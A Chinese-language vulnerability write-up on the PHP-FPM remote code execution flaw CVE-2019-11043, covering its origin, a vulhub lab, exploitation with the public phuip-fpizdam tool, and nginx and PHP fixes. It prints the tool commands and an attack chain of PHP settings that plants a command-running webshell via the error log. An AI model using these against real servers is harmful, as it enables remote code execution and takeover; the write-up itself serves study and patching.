



# PHP-FPM Remote Code Execution(CVE-2019-11043)

## 起因

国外安全研究员 Andrew Danau在解决一道 CTF 题目时发现，向目标服务器 URL 发送 %0a 符号时，服务返回异常，疑似存在漏洞。

## 原理

A small memory defect to code execution.

It combines both binary and web technique.

https://blog.orange.tw/2019/10/an-analysis-and-thought-about-recently.html

### 上溢和下溢

上溢：

是当一个超长的数据进入到缓冲区时，超出部分被写入上级缓冲区，上级缓冲区存放的可能是数据、上一条指令的指针，或者是其他程序的输出内容，这些内容都被覆盖或者破坏掉。可见一小部分数据或者一套指令的溢出就可能导致一个程序或者操作系统崩溃。

下溢：

与之对应的就是下溢，下溢是当一个超长的数据进入到缓冲区时，超出部分被写入下级缓冲区，下级缓冲区存放的是下一条指令的指针，或者是其他程序的输出内容。

在JavaScript中，下溢是指当运算结果无限接近于零并比JavaScript能表示的最小值还小的时候发生的一种情形。


## 环境搭建

https://github.com/vulhub/vulhub/tree/master/php/CVE-2019-11043

## 利用

	go get github.com/neex/phuip-fpizdam

	./phuip-fpizdam url

发送payload：





在数据包中，header中的最后两部分就是为了完成这部分功能。

其中D-Gisos负责位移，向指定的位置写入数据。

将Ebut置于指定位置而Ebut会转化为```HTTP_EBUT```这个```fastcgi_param```中的其中一个全局变量。fastcgi想要获取全局变量时，会读取指定位置的长度字符做对比(会判断变量的哈希与长度)，然后读取一个字符串作为value.

也就是说，只要位置合理，var值相同，且长度相同，fastcgi就会读取相对应的数据，这也就意味着我们可以控制PHP的任意全局变量。

```HTTP_EBUT```是漏洞发现者fuzz出的与```PHP_VALUE```哈希一致，长度也一致的变量。

https://blog.orange.tw/2019/10/an-analysis-and-thought-about-recently.html 文章中提到的可利用的攻击链：

	var chain = []string{
	    "short_open_tag=1",
	    "html_errors=0",
	    "include_path=/tmp",
	    "auto_prepend_file=a",
	    "log_errors=1",
	    "error_reporting=2",
	    "error_log=/tmp/a",
	    "extension_dir=\"<?=`\"",
	    "extension=\"$_GET[a]`?>\"",
	}

可以控制全局变量之后，有多种攻击方法，下面介绍漏洞发现者提供的方法：开启自动包含，并设置包含目录为/tmp，之后设置log地址为/tmp/a并将payload写入log文件，通过```auto_prepend_file```自动包含/tmp/a文件构造后门文件。

进入docker容器内部 tmp目录：



## 影响范围

php 7，Nginx + php_fpm

The buffer underflow in php-fpm is present in PHP version 5. However, this exploit makes use of an optimization used for storing FastCGI variables, [```_fcgi_data_seg```](https://github.com/php/php-src/blob/5d6e923/main/fastcgi.c#L186). This optimization is present only in php 7, so this particular exploit works only for php 7. There might be another exploitation technique that works in php 5.

这个漏洞对真实世界危害有限，其主要原因都在于大部分的nginx配置中都携带了对文件的检查，且默认的nginx配置不包含这个问题。

但也正是由于这个原因，在许多网上的范例代码或者部分没有考虑到这个问题的环境，例如Nginx官方文档中的范例配置、NextCloud默认环境，都出现了这个问题，该漏洞也正真实的威胁着许多服务器的安全。

https://zhuanlan.zhihu.com/p/88995787

## 漏洞修复

临时修复：

修改nginx相应的配置，并在php相关的配置中加入

try_files $uri =404

在这种情况下，会有nginx去检查文件是否存在，当文件不存在时，请求都不会被传递到php-fpm。

正式修复：

将PHP 7.1.X更新至7.1.33 https://github.com/php/php-src/releases/tag/php-7.1.33

将PHP 7.2.X更新至7.2.24 https://github.com/php/php-src/releases/tag/php-7.2.24

将PHP 7.3.X更新至7.3.11 https://github.com/php/php-src/releases/tag/php-7.3.11


## 参考资料


https://bugs.php.net/bug.php?id=78599


